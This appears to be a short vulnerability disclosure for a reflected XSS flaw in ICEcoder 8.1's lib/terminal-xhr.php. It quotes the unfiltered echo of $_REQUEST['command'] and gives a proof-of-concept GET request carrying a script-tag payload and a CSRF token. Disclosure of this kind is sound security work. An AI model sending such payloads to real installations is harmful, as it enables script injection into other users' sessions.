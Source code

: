 A xss vulnerability in icecoder 8.1.

In file lib/terminal-xhr.php

```php
...
if (false === proc_open_enabled()) {		// Line 46-52
    echo json_encode([
        "output" => returnHTMLPromptCommand($_REQUEST['command'] . "<br><br>Sorry but you can't use this terminal if your proc_open is disabled"),
        "user" => $user,
        "cwd" => $cwd
    ]);
    exit;
}
...
```

Source from `$_REQUEST['command']` and without any filtering, which resulting in XSS.

# Poc

`GET /lib/terminal-xhr.php?command=<script>alert(1)</script>&csrf=f64d3d95dc4af18766d285ff437e4d4f`

The value of csrf can access from index.php



# Manual verification

![alt text](1.png)


![alt text](2.png)


The developer has been informed of the report via email
